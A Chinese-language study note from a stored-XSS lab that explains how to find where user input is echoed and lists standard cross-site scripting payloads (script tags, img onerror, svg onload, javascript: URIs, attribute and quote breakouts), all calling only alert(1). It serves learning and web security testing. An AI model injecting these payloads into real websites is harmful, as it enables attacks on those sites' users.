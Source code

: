# Day12学习笔记

**日期**：2025.10.23
**目标**：完成一个stored xss lab，输出一篇writeup

---

## stored xss 如何注入：
- 先找回显点（Echo point）：确定用户输入在哪里显示——三类常见位置：
	- HTML body（文本节点）：`<div>用户输入</div>`
	- Attribute（属性）：`<a href="用户输入">`、`<div title="用户输入">`
	- JS string（脚本字符串）：`<script>var a = "用户输入";</script>`
- 注：提交评论后通常会 302 重定向，回显信息不在提交响应里，要抓取刷新/帖子详情页（GET）或 XHR 的响应来定位回显。

---

## xss注入方法：

### HTML body（文本节点 / body 内）：
- 回显示例（Elements）：`<p>user input here</p>`
- 判定：`innerHTML` 会显示原始标签或实体。
	- `innerHTML` / `textContent`是两个 JavaScript 属性，用来读取或写入页面元素的内容;
	- `innerHTML`可能会把`'<img src=x onerror=alert(1)>'`当成脚本执行
	-  `textContent`（或innerText）会以纯文本形式读/写，不会解析为 HTML
- 常用 payload（需要 `<` `>`）：
- `<script>alert(1)</script>`（直接脚本）
	- 有时HTML会过滤`<script>`（`<script>``</script>`是一对标签，代表执行标签内的js代码），这时需要尝试以下方法
- `<img src=x onerror=alert(1)>`（事件型）
- `<svg onload=alert(1)></svg>`（事件型）
- 基础知识：这些 payload 依赖浏览器把 `<...>` 解析成标签。若页面把 `<` 进行转义或删除，就不会执行。

### Attribute（属性上下文：例如 `href="..."` `title="..."`）：
- 回显示例：`<a href="user_input">name</a>` 或 `<div title="user_input">`
- 判定：在 Elements 里看属性值。
- 常用 payload（不总需要 `<`）：
- `javascript:alert(1)`（href 协议注入，点击执行）
	- 只适用于`href`属性，`javascript:`是一串伪协议，强制网页以javascript的形式运行后面的内容，即`alert(1)`
- `"><svg onload=alert(1)><!--`（属性闭合注入：先闭合属性再插入新标签）
	- `<!--`是HTML的注释符，与`-->`配套使用，前者标示注释开头，后者标示注释结尾`<!--这是一段注释-->`
	- 在这里故意仅使用注释符的前半段，目的是把后续内容注释掉不干扰注入内容
- `'" onmouseover=alert(1) x="`（闭合并插入事件属性）
	- `onmouseover`的含义为鼠标放在指定位置时执行相应操作
- 基础知识：属性值里若被 HTML 实体化（`"`）即`"`被转义，则闭合方法可能被破坏。

### JS string（被拼进脚本字符串里，如 `<script>var a = "USER";</script>`）：
- 判定：在 raw HTML 中看到字符串拼接位置或在 Elements 找到 `<script>` 包含输入。
- 常用 payload（不含尖括号，靠闭合引号）：
- `";alert(1);//`（双引号场景）
- `');alert(1);//`（单引号场景）
- 基础知识：目的是“跳出”字符串并执行代码，然后注释掉剩余页面代码避免语法错误。

### AJAX / JSON → 前端再渲染：
- 判定：Network → XHR，看是否有请求返回 JSON 并被前端插入。再看前端是否用 `innerHTML` 或 `textContent`。
- 常用 payload：同 HTML body / attribute，取决于前端如何插入（innerHTML 则可用 `<img>`；textContent 则无效）。

---

## payload一览：
### HTML body（文本节点）：
- `<script>alert(1)</script>`
- `<img src=x onerror=alert(1)>`
- `<svg onload=alert(1)></svg>`

### Attribute（属性）：
- `javascript:alert(1)`  — 放 `href`，无需尖括号
- `"><svg onload=alert(1)><!--` — 属性闭合后插入 SVG
- `'" onmouseover=alert(1) x="` — 属性闭合并插入事件

### JS string：
- `";alert(1);//`
- `');alert(1);//`

### 二次解码测试：
- `<script>alert(1)</script>` — 看前端/后端是否会把实体再解码回 `<script>`

### 自动触发替代（当点击不好用时）：
- `<input autofocus onfocus=alert(1)>` — 页面加载后自动 focus 触发（某些场景有效）